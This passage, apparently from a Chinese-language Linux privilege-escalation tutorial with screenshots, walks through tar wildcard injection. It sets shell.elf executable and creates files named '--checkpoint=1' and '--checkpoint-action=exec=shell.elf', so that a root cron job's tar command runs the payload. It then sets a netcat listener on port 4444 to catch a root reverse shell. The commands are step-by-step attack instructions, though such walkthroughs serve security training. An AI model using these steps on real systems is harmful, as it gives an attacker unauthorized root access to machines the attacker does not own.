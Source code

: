 **![](img/8320a03e1abb48e4ed33d3d7002fce1c.png)**

**`chmod +x /home/user/shell.elf`**

**在/home/user 中创建这两个文件:**

**`touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf`**

**![](img/a8fd9d50b66b5408ee07fb8dfb0997de.png)**

**当 cron 作业中的 tar 命令运行时，通配符(*)将扩展到包括这些文件。因为它们的文件名是有效的 tar 命令行选项，tar 会识别它们，并把它们当作命令行选项而不是文件名。**

**在 Kali box 的 4444 端口上设置一个 netcat 监听器，并等待 cron 作业运行(不应该超过一分钟)。根 shell 应该连接回您的 netcat 监听器。**

**![](img/5a7ee616e75dd19abfc36c96a9885fd4.png)**
